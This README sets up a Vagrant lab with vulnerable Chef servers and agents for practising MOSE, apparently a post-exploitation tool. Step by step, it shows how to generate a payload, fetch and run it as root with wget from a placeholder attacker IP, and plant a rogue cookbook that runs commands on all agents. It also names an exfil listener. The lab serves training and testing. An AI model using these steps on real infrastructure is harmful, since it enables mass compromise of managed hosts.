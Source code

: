 # chef-test-lab
Used to create a test lab that can be used to work with MOSE and Chef.

**Warning, take heed: This lab should be run in a controlled environment; it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Vagrant](https://www.vagrantup.com/downloads.html)

## Vagrant Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls multiple agents, run the following command:
```
cd vagrant && make build && make run
```
To run MOSE against the chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef`
3. Login to the chef workstation: `vagrant ssh chef_workstation` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Run the payload: `chmod +x chef-linux; ./chef-linux`
7. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	7a. Escalate to root with ```sudo su``` <br>
	7b. Run ```chef-client```
8. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

To run MOSE against the chef server:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef -l <your local ip address> -ep 9090 -rhost chef-server:10.42.42.10` <br>
	2a. The exfil listener time can be set with the `-ep` parameter <br>
	2b. The `-rhost` parameter is a necessity if running against a chef-server.  
3. Login to the chef server: `vagrant ssh chef_server` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Back on the attacker's system, specify `n` for the target being a workstation and `Y` when prompted for the target being a server
7. Run the payload: `chmod +x chef-linux; ./chef-linux`
8. Use the container that is spawned on the attacking machine as if it were a workstation to get the rogue cookbook into place
9. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	9a. Escalate to root with ```sudo su``` <br>
	9b. Run ```chef-client```
10. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

To tear down the test environment, run the following command:
```
make destroy
```
